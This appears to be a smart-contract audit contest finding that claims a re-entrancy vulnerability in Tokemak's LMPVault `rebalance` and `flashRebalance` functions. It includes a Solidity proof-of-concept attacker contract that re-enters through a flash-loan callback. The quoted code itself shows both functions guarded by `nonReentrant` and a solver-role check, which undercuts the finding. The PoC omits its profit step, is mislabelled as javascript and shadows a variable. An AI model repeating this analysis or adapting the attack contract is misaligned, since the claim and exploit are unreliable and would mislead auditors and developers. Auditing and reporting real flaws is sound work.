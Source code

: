 Creamy Blue Wren

high

# Unhandled Exception in LMPVault's `rebalance` and `flashRebalance` leading to Re-entrancy Vulnerability

## Summary

The smart contract LMPVault.sol (Part 2nd) from Tokemak protocol has a potential vulnerability related to re-entrancy. In the `rebalance` and `flashRebalance` functions, the contract seems to allow external calls before updating the state variables `totalIdle` and `totalDebt`.

## Vulnerability Detail

The `rebalance` and `flashRebalance` functions involve interactions with external contracts (which could be malicious) before updating the `totalIdle` and `totalDebt` variables. This opens an actual risk for re-entrancy attacks.

In particular, the `rebalance` function makes an external call to `LMPDebt.rebalance` which can further interact with other external contracts. Similarly, `flashRebalance` function calls `LMPDebt.flashRebalance` which could allow the receiver to initiate a re-entrancy attack.

## Impact

If exploited, this vulnerability can result in loss of funds. An attacker could repeatedly call the `rebalance` or `flashRebalance` function while the state variables `totalIdle` and `totalDebt` are still unaltered.

## Code Snippet

```solidity
function rebalance(RebalanceParams memory params) public nonReentrant hasRole(Roles.SOLVER_ROLE) trackNavOps {
 (uint256 idle, uint256 debt) = LMPDebt.rebalance(
 destinationInfo[params.destinationOut],
 destinationInfo[params.destinationIn],
 params,
 _baseAsset,
 _shutdown,
 totalIdle,
 totalDebt
 );
 totalIdle = idle;
 totalDebt = debt;
 _collectFees(idle, debt, totalSupply());
}

function flashRebalance(
 IERC3156FlashBorrower receiver,
 RebalanceParams memory rebalanceParams,
 bytes calldata data
 ) public nonReentrant hasRole(Roles.SOLVER_ROLE) trackNavOps {
 (uint256 idle, uint256 debt) = LMPDebt.flashRebalance(
 destinationInfo[rebalanceParams.destinationOut],
 destinationInfo[rebalanceParams.destinationIn],
 receiver,
 rebalanceParams,
 LMPDebt.FlashRebalanceParams({
 totalIdle: totalIdle,
 totalDebt: totalDebt,
 baseAsset: _baseAsset,
 shutdown: _shutdown
 }),
 data
 );
 totalIdle = idle;
 totalDebt = debt;
 _collectFees(idle, debt, totalSupply());
}
```

https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L691-L728

## Tool used

Manual Review

## Recommendation

The team should use the Checks-Effects-Interactions pattern in these functions. The state variables should be updated before making the external calls to avoid reentrancy exploit scenarios.

## Proof Of Concept

Here's a further comprehensive example demonstrating how a potential attacker might exploit the vulnerability, including the logic to repay the flash loan (plus the fee) and a basic scheme to profit from the vulnerability. 

Note that this is only an illustration and will not work directly against a mainnet fork without concrete contract addresses and parameters.

```javascript
contract MaliciousContract is IERC3156FlashBorrower {
    LMPVault public victimContract;
    IERC20 public token;
    RebalanceParams public maliciousParams;
    bytes public maliciousData;
    uint256 public amountOwed;

    constructor(LMPVault _victimContract, IERC20 _token, RebalanceParams memory _maliciousParams, bytes memory _maliciousData) {
        victimContract = _victimContract;
        token = _token;
        maliciousParams = _maliciousParams;
        maliciousData = _maliciousData;
    }

    function executeAttack() external {
        victimContract.flashRebalance(this, maliciousParams, maliciousData);
    }

    function onFlashLoan(address initiator, address token, uint256 amount, uint256 fee, bytes calldata data) external override returns(bytes32) {
        require(msg.sender == address(victimContract), "Only victim contract can initiate");

        amountOwed = amount + fee;
        
        // Re-enter the victim contract
        victimContract.flashRebalance(this, maliciousParams, maliciousData);
        
        // Profit logic goes here. This could involve a series of complex transactions
        // that eventually lead to the attacker profiting from the re-entrancy attack.
        // This logic has been omitted for simplicity.

        // Return the loan plus fee
        require(token.transfer(msg.sender, amountOwed), "Failed to repay loan");
        
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```

In this contract, we first set up the victim contract, malicious parameters, and malicious data in the constructor. The `executeAttack` function is then called to initiate the flash loan from the victim contract. Since this contract implements `IERC3156FlashBorrower`, it is called back in the `onFlashLoan` function, where it calculates the amount owed (including the fee), calls `flashRebalance` again (initiating the re-entrancy attack), and then transfers the owed amount back to the lender (repaying the loan).

The actual logic of how the attacker would profit from the re-entrancy attack has been omitted for simplicity, but it would generally involve some form of arbitrage or manipulation of contract state to the attacker's benefit.